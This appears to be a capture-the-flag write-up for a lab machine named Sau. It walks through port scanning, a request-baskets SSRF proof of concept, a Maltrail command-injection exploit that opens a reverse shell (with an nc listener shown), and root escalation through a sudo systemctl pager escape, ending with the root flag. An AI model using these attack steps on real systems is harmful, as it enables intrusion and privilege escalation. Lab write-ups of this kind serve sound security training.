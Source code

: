## Sau

### Lab Details 

- Difficulty: Easy
- Type: Web App, Priv Esc, Linux

#### Tasks
Q1: Which is the highest open TCP port on the target machine?
- run nmap `nmap -sT -T4 -vv -A -p- -Pn -oA Sau 10.10.11.224`
```
<snip>
55555/tcp open  http    syn-ack Golang net/http server
| http-title: Request Baskets
|_Requested resource was /web
| http-methods: 
|_  Supported Methods: GET OPTIONS
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Tue, 03 Jun 2025 18:44:56 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, LPDString, RTSPRequest, SIPOptions, SSLSessionReq, Socks5: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Tue, 03 Jun 2025 18:44:36 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Tue, 03 Jun 2025 18:44:37 GMT
|     Content-Length: 0
|   OfficeScan: 
|     HTTP/1.1 400 Bad Request: missing required Host header
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|_    Request: missing required Host header
<snip>
```

Q2/3: What is the name of the open source software that the application on 55555 is "powered by"?
- we can try curl the website and we get below info on the web app
```
$ curl http://10.10.11.224:55555/web
<snip>
   <small>
          Powered by <a href="https://github.com/darklynx/request-baskets">request-baskets</a> |
          Version: 1.2.1
        </small>
<snip>
```

Q4: What is the 2023 CVE ID for a Server-Side Request Forgery (SSRF) in this version of request-baskets?
- searched online and found CVE-2023-27163

Q5: What is the name of the software that the application running on port 80 is "powered by"?
- found a POC for CVE-2023-27163, https://github.com/entr0pie/CVE-2023-27163
- the POC utilizes the exploit and use a basket as proxy to internal port on target
```
$ ./CVE-2023-27163.sh http://10.10.11.224:55555/ http://127.0.0.1:80/   
Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

> Creating the "phfxzv" proxy basket...
> Basket created!
> Accessing http://10.10.11.224:55555/phfxzv now makes the server request to http://127.0.0.1:80/.
> Authorization: VCqijliagnSYDQATcYyI7PreVBXKMNxaLRGDi8oLsdq-
```
- once the proxy is setup we can access the internal port on target, using curl as an example 
```
$: curl  http://10.10.11.224:55555/phfxzv
<snip>
<div id="bottom_blank"></div>
        <div class="bottom noselect">Powered by <b>M</b>altrail (v<b>0.53</b>)</div>
<snip>
```

Q6: There is an unauthenticated command injection vulnerability in MailTrail v0.53. What is the relative path on the webserver targeted by this exploit?
- searched online and found POC for the app https://github.com/spookier/Maltrail-v0.53-Exploit
- run the exploit and we get a reverse shell 
- POC is targeting the /login 
```
$: cat exploit.py
<snip>
        target_URL = sys.argv[3] + "/login"
<snip>
```

Q7: What system user is the Mailtrack application running as on Sau?
- whoami on target
```
nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.35] from (UNKNOWN) [10.10.11.224] 43172
$ whoami
whoami
puma
```

Q8: What is the full path to the binary (without arguments) the puma user can run as root on Sau?
- use `sudo -l` to check
```
$ sudo -l
sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

Q9: What is the full version string for the instance of systemd installed on Sau?
- check with `systemctl --version`
```
$ systemctl --version
systemctl --version
systemd 245 (245.4-4ubuntu3.22)
+PAM +AUDIT +SELINUX +IMA +APPARMOR +SMACK +SYSVINIT +UTMP +LIBCRYPTSETUP +GCRYPT +GNUTLS +ACL +XZ +LZ4 +SECCOMP +BLKID +ELFUTILS +KMOD +IDN2 -IDN +PCRE2 default-hierarchy=hybrid
```

Q10: What is the 2023 CVE ID for a local privilege escalation vulnerability in this version of systemd?
- since we can run systemct as root without a password we can try privilege escalate using a method in  https://gtfobins.github.io/gtfobins/systemctl/
```
$ sudo /usr/bin/systemctl status trail.service
sudo /usr/bin/systemctl status trail.service
WARNING: terminal is not fully functional
-  (press RETURN)!/bin/sh
!//bbiinn//sshh!/bin/sh
# whoami
whoami
root
# cat /root/root.txt
cat /root/root.txt
c59730ba712fc8b9acf87109b9b71f8e
```




#### Resources

#### Lesson Learned
